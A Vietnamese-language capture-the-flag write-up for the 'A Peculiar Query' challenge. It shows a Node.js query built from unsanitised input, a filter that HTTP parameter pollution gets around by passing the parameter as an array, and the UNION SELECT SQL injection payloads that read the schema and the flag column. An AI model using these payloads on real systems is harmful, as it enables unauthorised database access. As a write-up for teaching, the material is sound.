



## A Peculiar Query

- Đây là một bài SQL injection, đọc source ta thấy câu query
```javascript

async function query(q) {
	const ret = await client.query(`SELECT name FROM Criminals WHERE name ILIKE '${q}%';`);
	return ret;
}

let q = req.query.q;
			// no more table dropping for you
			let censored = false;
			for (let i = 0; i < q.length; i ++) {
				if (censored || "'-\".".split``.some(v => v == q[i])) {
					censored = true;
					q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
				}
			}
      q = q.substring(0, 80);

```

và đã dò 4 kí tự ['-\".] này và thay thế bằng *, ví dụ như ta nhập vào hello'thien, thì kết quả thành hello******
cuối cùng họ dùng subtring để giới hạn input. Quá kĩ nhỉ. Vậy chúng ta nên làm gì. Sau khi suy nghĩ, tôi thấy server không check
kiểu dữ liệu. Ý tưởng sẽ dùng kĩ thuật HPP (HTTP parameter pollution). Bạn có thể gg để tìm hiểu.

- Bây giờ tôi giả lập lại đoạn code nó filt 4 kí tự kia.
```javascript
let q = ["hello world", "'"];
let censored = false;
for (let i = 0; i < q.length; i ++) {
  if (censored || "'-\".".split``.some(v => v == q[i])) {
    censored = true;
    q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
  }
}
q = q.substring(0, 80);
console.log(q)
```
>q = ["hello world", "'"] 

tương tự như có 2 parameter -> ?q=hello world&q=' để xem kết quả ra gì.
kết quả


vậy là khi có 2 parameter thì nó lấy được 2 kí tự từ thằng parameter 1. Nên việc ta cần làm bây giờ là chèn câu sql thích hợp để trích
xuất ra các bảng, các cột tìm ra flag và chèn đủ số lượng parameter. Để làm vậy ta viết một tool đơn giản ở file payload1.py

>['hello world', 'q', 'q', 'q', 'q', 'q', 'q', 'q', 'q', 'q', 'q', "'"]

- Dùng cái này chạy thử lại bên kia xem thử ra được hello world không
  kết quả
  

- Vậy giờ ta chỉ cần chỉnh lại một tí: ta dùng payload ' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS để show ra
các cột trong database, sau khi chạy tool payload2.py ta ra payload cần chèn.

  

  vì đề bài là Criminal Record Lookup, nên tôi tìm những cái liên quan về tội phạm, tìm trong đám này thấy có cột crime
  câu query tiếp theo sẽ là ' AND 1=0 UNION SELECT crime FROM Criminals-- , lấy cột crime từ bảng Criminals

- Thế là ra flag: actf{qu3r7_s7r1ng5_4r3_0u7_70_g37_y0u}
  

